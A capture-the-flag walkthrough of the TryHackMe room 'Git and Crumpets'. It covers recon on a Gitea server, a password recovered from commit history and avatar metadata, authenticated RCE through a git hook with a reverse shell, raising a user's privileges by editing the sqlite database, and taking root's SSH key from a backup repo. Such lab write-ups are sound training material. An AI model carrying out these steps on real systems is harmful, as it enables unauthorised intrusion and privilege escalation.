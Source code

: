 # [Git and Crumpets](https://tryhackme.com/room/gitandcrumpets)

> Darshan Patel

## Overview

| Tables | Description |
| ------ | ----------- |
| Challenge Name | Git and Crumpets |
| Difficulty | Medium |
| Tags | security, ctf, git, hardened|

---

> Our devs have been clamoring for some centralized version control, so the admin came through. Rumour has it that they included a few countermeasures...

## nmap

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.0 (protocol 2.0)
80/tcp open  http    syn-ack ttl 63 nginx
| http-title: Hello, World
|_Requested resource was http://crumpets.thm/index.html
```

---

## HTTP

Redirects you to a RickRoll

Inspecting the source code:

 ```
         Hey guys,
           I set up the dev repos at git.git-and-crumpets.thm, but I haven't gotten around to setting up the DNS yet. 
           In the meantime, here's a fun video I found!
```

```bash
$ echo "${IP} git.git-and-crumpets.thm" >> /etc/hosts
```

![Frontpage](https://i.imgur.com/ryTJyY7.png)

Register a fake user:

![](https://i.imgur.com/kEYTbFe.png)

Explore existing repos:

![](https://i.imgur.com/AeZvJYz.png)

Clone the repos and analyse the history:

`scones/cant-touch-this`
```
...[snip]
commit 9a151a065797e3ae8e4d86da9d32d032cdec6885
Author: scones <withcream@example.com>
Date:   Thu Apr 15 16:29:48 2021 +0200

    Delete Passwords File
    
    I kept the password in my avatar to be more secure.
...[snip]
```

![](https://i.imgur.com/sXK5aTV.png)

```bash
$ wget -q http://git.git-and-crumpets.thm/avatars/3fc2cde6ac97e8c8a0c8b202e527d56d -O scones_avatar
$ file scones_avatar
scones_avatar: PNG image data, 290 x 290, 16-bit/color RGB, non-interlaced
$ exiftool scones_avatar 
...[snip]
File Permissions                : -rw-r--r--
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 290
Image Height                    : 290
Bit Depth                       : 16
Color Type                      : RGB
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
Description                     : [REDACTED]
Image Size                      : 290x290
Megapixels                      : 0.084
```

We now have user access for `scones`

![](https://i.imgur.com/eEz9MdN.png)

```bash
$ search gitea
Gitea 1.12.5 - Remote Code Execution (Authenticated)                                                | multiple/webapps/49571.py
Gitea 1.4.0 - Remote Code Execution                                                                 | multiple/webapps/44996.py
Gitea 1.7.5 - Remote Code Execution                                                                 | multiple/webapps/49383.py
$ search -m 49571
$ head 49571.py
# Exploit Title: Gitea 1.12.5 - Remote Code Execution (Authenticated)
# Date: 17 Feb 2020
# Exploit Author: Podalirius
# PoC demonstration article: https://podalirius.net/en/articles/exploiting-cve-2020-14144-gitea-authenticated-remote-code-execution/
# Vendor Homepage: https://gitea.io/
# Software Link: https://dl.gitea.io/
# Version: >= 1.1.0 to <= 1.12.5
```

Following the [Proof of Concept](https://podalirius.net/en/articles/exploiting-cve-2020-14144-gitea-authenticated-remote-code-execution/) after the script failed results in RCE

Add the hook with your reverse shells in the hook script.

![](https://i.imgur.com/wiULY7T.png)

![](https://i.imgur.com/6qmEnm6.png)

```bash
[git@git-and-crumpets data]$ cat ~/user.txt  | base64 -d; echo
thm{************************}
```

Enumerating the `gitea` files we notice another user who owns a private repo.

We also have a database file we can give ourselves maximum privileges with on the webserver.

> Why not go through the files on the server instead of giving yourself admin privs?

GUI is nicer than sorting through files. I initially tried examining roots `backup.git` file but I realised that it was easier to just give myself max privs so `gitea` does the work for me.


```bash
[git@git-and-crumpets data]$ sqlite3 gitea.db
```

```sql
sqlite> .tables
...[snip]               
notice                     user                     
notification               user_open_id             
...[snip]
sqlite> .schema user
CREATE TABLE `user` (`id` INTEGER PRIMARY KEY AUTOINCREMENT NOT NULL, `lower_name` TEXT NOT NULL, `name` TEXT NOT NULL,
...[snip]
is_admin` INTEGER NULL
...[snip]
sqlite> SELECT id, name, is_admin FROM user;
1|hydra|1
2|root|0
3|scones|0
4|test|0
5|bob|0
sqlite> UPDATE user SET is_admin=1 WHERE name="scones";
sqlite> SELECT id, name, is_admin FROM user;
1|hydra|1
2|root|0
3|scones|1
4|test|0
5|bob|0
```

![](https://i.imgur.com/X4nHzti.png)

![](https://i.imgur.com/oab4k2V.png)

![](https://i.imgur.com/6HOHnnO.png)

![](https://i.imgur.com/WpLrscR.png)

```bash
$ curl 'http://git.git-and-crumpets.thm/root/backup/raw/commit/0b23539d97978fc83b763ef8a4b3882d16e71d32/.ssh/Sup3rS3cur3' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Connection: keep-alive' -H 'Cookie: i_like_gitea=85c281436e647867; lang=en-US; _csrf=yFxoY2sGIv9HcQ42Y_TUSvOLrcs6MTYzNjA1MzcwNjE0NDA1NTA1MA' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-GPC: 1' -H 'Cache-Control: max-age=0' > id_rsa.root
$ chmod 600 id_rsa.root
$ ssh -i id_rsa root@git.git-and-crumpets.thm
Load key "id_rsa": invalid format
root@git.git-and-crumpets.thm password: 
$ echo >> id_rsa.root
$ ssh -i id_rsa.root root@git.git-and-crumpets.thm                                                                       
Enter passphrase for key 'id_rsa.root': 
Last login: Thu Nov  4 21:31:24 2021 from 10.9.5.27
[root@git-and-crumpets ~]# cat ~/root.txt | base64 -d; echo
thm{********************}
```

**There is no need to brute force the private key!**


